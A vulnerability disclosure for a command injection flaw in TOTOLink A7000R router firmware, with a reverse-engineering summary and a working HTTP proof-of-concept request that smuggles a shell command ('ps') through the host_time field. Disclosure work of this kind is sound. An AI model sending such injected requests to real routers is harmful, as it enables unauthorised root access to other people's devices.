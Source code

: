 # TOTOLink A7000R V9.1.0u.6115_B20201022 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html

### Product Information

TOTOLink A7000R V9.1.0u.6115_B20201022 router, the latest version of simulation overview：

![image-20220719210324254](img/image-20220719210324254.png)

## Vulnerability details

TOTOLINK A7000R (V9.1.0u.6115_B20201022) was found to contain a command insertion vulnerability in NTPSyncWithHost.This vulnerability allows an attacker to execute arbitrary commands through the "host_time" parameter.

![image-20220719211135564](img/image-20220719211135564.png)

`Var` passes directly into the dosystem function.

![image-20220719205544791](img/image-20220719205544791.png)

The dosystem function is finally found to be implemented in this file by string matching.

![image-20220719205811209](img/image-20220719205811209.png)

Reverse analysis found that the function was called directly through the system function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 52
Origin: http://192.168.0.1
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"host_time":"2022-07-21 20:12:43';ps;'","topicurl":"NTPSyncWithHost"}
```

![image-20220719212510596](img/image-20220719212510596.png)

 The above figure shows the POC attack effect 

![image-20220720065911385](img/image-20220720065911385.png)

Finally, you can write exp to get a stable root shell without authorization.
